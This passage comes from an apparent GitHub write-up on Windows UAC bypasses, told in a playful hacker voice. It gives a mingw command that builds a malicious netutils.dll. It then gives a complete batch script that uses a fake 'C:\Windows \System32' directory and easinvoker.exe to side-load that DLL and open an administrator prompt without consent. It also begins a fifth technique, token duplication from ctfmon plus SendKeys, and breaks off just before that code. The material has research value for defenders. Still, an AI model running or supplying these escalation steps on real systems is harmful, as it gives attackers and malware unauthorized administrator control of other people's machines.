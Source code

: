 compile it (I sometimes use Debian Linux for DLLs. In this case, I had some weird issues with using Visual Studio so just stuck with mingw)

~$ `x86_64-w64-mingw32-gcc netutils.c -shared -o netutils.dll`

Lastly, put together some crappy code that pulls off the UAC Bypass

```bat
@echo off
cd %USERPROFILE%\Desktop
mkdir "\\?\C:\Windows "
mkdir "\\?\C:\Windows \System32"
copy "c:\windows\system32\easinvoker.exe" "C:\Windows \System32\"
cd c:\temp
copy "netutils.dll" "C:\Windows \System32\"
"C:\Windows \System32\easinvoker.exe"
del /q "C:\Windows \System32\*"
rmdir "C:\Windows \System32\"
rmdir "C:\Windows \"
cd %USERPROFILE%\Desktop
```

and be greeted with a beautiful administrator command prompt 😼

![image](https://github.com/user-attachments/assets/bcf9dd38-c8a3-4e5d-b53c-9c5c55a36920)

and that's it!  

Now, time for the grand finale 🙂  I had the most fun with this one, as it's the most creative and consequently the most difficult to learn and pull off...at least for me personally.  But that's what made it all the more enjoyable to research!  I give you...

***UAC Bypass Technique #5 - UI Access Token Duplication<br>(UAC setting - Don't notify me when I make changes to Windows settings)***
-

> **UPDATE: 3/18/2025 - This seems to have been patched sometime in late Fall, 2024**

Yeah, on it's own `ctfmon` seems pretty bland.  It's not fully elevated, though it is running in HIGH integrity.  So I'll give it that

![image](https://github.com/user-attachments/assets/dbb926c8-6f88-4a20-8e39-f01b60b6046b)

Let's peek around a bit more to see what's up with this intriguing yet lackluster process. Hmm, ever wondered about this when viewing a process in Process Hacker/System Informer?

![image](https://github.com/user-attachments/assets/0f8789c3-fe0b-4a3c-b35b-a36116e3a8f3)

I never really thought much of it.  But then again, others delve much deeper into Windows Internals than I have.  Take James Forshaw for example...keep in mind this was from 2019!!!

[https://www.tiraniddo.dev/2019/02/accessing-access-tokens-for-uiaccess.html](https://www.tiraniddo.dev/2019/02/accessing-access-tokens-for-uiaccess.html)

I'll give you the short end of the matter.  We can duplicate the ctfmon's process token and change the token integrity to the integrity of our current process.  Then, we have Leet powers to do an old trick I used to absolutely LOVE doing back in high school.  Using SendKeys to force elevated programs to do our evil bidding...Mwuahahahahahaa!  Normally, well.. sometime after Windows XP...a standard user was prevented from interacting with an elevated application window.  However, with UIAccess, welcome back to the days of Windows XP and 7, where AV sucks and there are no restrictions...where anything goes!  It's starting to get late so I'd better get to it.  Here's the code:
